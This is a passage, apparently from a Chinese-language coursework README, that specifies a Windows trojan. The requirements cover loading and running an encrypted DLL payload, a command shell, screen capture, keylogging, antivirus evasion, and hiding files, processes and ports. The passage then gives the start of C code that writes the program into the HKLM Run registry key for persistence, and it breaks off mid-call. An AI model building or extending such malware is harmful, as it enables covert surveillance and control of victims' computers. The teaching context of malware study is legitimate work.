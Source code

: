 # 要求

1. 把加密后的b.dll放到a里面
2. 提取加密部分的数据
3. 解密
4. 执行解密后的数据



1.木马自启动【必做】
2.木马功能
   文件【必做】
   screen dump（截屏）【必做】
   command shell【必做】
   keylog（键盘记录）【选做】
3.木马抗查杀【选做】
4.木马隐藏
   文件【必做】
   进程【必做】
   端口【选做】
   启动盘【选做】


# 代码

## 自启动
通过设置注册表，在开机的时候自启动

```c
#include <windows.h>
#include <stdio.h>

int main()
{

	HKEY hKey;
    DWORD result;

    //打开注册表,记得双斜杠转义
    result = RegOpenKeyEx(
                 HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
                 0,              // 保留参数必须填 0
                 KEY_WRITE,      // 打开权限，写入
                 &hKey           // 打开之后的句柄
             );
 
    if (result == ERROR_SUCCESS)
    {
        printf("open success!\n");
    }
    else
    {
        printf("open failed!\n");
        exit(-1);
    }
	
	//获取正在运行文件的路径
	char szModuleName[MAX_PATH]={0};
    GetModuleFileName(NULL,szModuleName,MAX_PATH);
	printf("%s\n",szModuleName);
	
    // 设置 NetworkAddress
    result = RegSetValueEx(
```